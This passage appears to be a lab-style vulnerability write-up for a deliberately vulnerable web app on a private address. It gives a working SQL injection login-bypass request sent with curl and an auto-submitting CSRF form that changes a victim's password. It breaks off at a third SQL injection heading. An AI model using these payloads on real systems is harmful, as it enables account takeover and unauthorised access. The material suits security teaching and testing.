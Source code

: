 - **Expected Behavior:**
  This endpoint authenticates a user by querying the database for a matching `username` and `password`. If valid credentials are provided, the server responds with a JWT token.

**SQL Injection Attempt**:

```bash
curl -X POST http://192.168.60.2:8080/login \
  -H "Content-Type: application/json" \
  -d '{"username":"admin\' OR \'1\'=\'1","password":"irrelevant"}'
```

- **Exploit:**
  The payload injects a SQL condition (`' OR '1'='1`) that always evaluates as true, bypassing authentication and allowing login without valid credentials. The server responds with a token for the first user in the database (admin).

---

### **2. Cross-Site Request Forgery (CSRF)**

**Endpoint**: POST `/change-password`

**Normal Request**:

```bash
curl -X POST http://192.168.60.2:8080/change-password \
  -H "Content-Type: application/json" \
  -d '{"userId":1,"newPassword":"newadmin123"}'
```

- **Expected Behavior:**
  This endpoint updates the password of a user specified by `userId`.

**CSRF Exploit**:

1. The attacker crafts a malicious webpage containing a form:

    ```html
    <form action="http://192.168.60.2:8080/change-password" method="POST">
      <input type="hidden" name="userId" value="1">
      <input type="hidden" name="newPassword" value="hacked123">
    </form>
    <script>
      document.forms[0].submit();
    </script>
    ```

2. The victim, while logged in, visits the malicious page. The form submits automatically, sending a POST request to the server with the attacker's payload.

- **Impact:**
  The victim’s password is changed to `hacked123` without their knowledge.

---

### **3. SQL Injection in User Search**
